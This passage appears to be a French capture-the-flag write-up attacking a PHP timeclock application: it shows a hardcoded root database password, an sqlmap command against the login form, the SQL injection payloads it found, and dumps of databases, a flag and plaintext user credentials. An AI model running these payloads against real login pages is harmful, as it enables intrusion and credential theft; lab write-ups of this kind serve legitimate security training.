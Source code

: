 ```php
$db = mysqli_connect("172.31.20.10", "root", "anchordb", "timeclock");
```

Il n'y a pas de manquement à l'authentification (on est correctement redirigés vers la page de login si non connecté) mais la page de login fait partie des scripts faillibles.  

```plain
$ python sqlmap.py -u "http://192.168.1.50:8115/timeclock/index.php"  --data "username=admin&password=ee&submit=Log+In" --dbms mysql --level 5 --risk 3

sqlmap identified the following injection point(s) with a total of 813 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin%' AND 2271=(SELECT (CASE WHEN (2271=2271) THEN 2271 ELSE (SELECT 8293 UNION SELECT 8771) END))-- -&password=ee&submit=Log In

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin%' AND (SELECT 9416 FROM (SELECT(SLEEP(5)))ASLP) AND 'WVuj%'='WVuj&password=ee&submit=Log In
---
[15:12:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

Je paste ici les dumps les plus intéressants :  

```plain
available databases [6]:
[*] anchor
[*] flag
[*] information_schema
[*] mysql
[*] performance_schema
[*] timeclock

Database: flag
Table: flag
[1 entry]
+-------------------+
| flag              |
+-------------------+
| {{tryharder:766}} |
+-------------------+

Database: timeclock
Table: user_info
[5 entries]
+---------+---------+---------+---------------+----------+----------+
| user_id | lname   | fname   | level         | username | password |
+---------+---------+---------+---------------+----------+----------+
| 1       | Admin   | Admin   | Administrator | admin    | admin    |
| 5       | yool    | heather | Administrator | heather  | heather  |
| 4       | tin     | larryjr | Administrator | larryjr  | larryjr  |
| 6       | <blank> | user1   | User          | user1    | user1    |
| 7       | user2   | user2   | User          | user2    | user2    |
+---------+---------+---------+---------------+----------+----------+

Database: anchor
Table: anchor_users
[4 entries]
```